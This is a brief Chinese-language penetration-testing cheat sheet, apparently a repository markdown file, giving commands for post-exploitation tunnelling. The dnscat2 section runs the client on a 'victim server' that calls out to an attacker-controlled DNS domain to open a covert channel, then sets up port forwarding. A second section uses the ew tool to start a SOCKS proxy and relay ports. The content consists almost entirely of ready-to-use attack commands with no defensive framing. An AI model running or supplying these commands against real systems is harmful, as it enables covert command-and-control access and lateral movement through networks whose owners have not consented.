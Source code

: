 # DNS隧道


```
在DNS服务器上运行：
dnscat2-server feline.corp

在受害者服务器上运行：
./dnscat feline.corp


在服务上开启端口转发：
使用会话
window -i 1
端口转发
listen 0.0.0.0:4646 172.16.223.217:4646


```

# ew

```
https://github.com/idlefire/ew

./ew -s ssocksd -l 8888

端口转发：
./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
```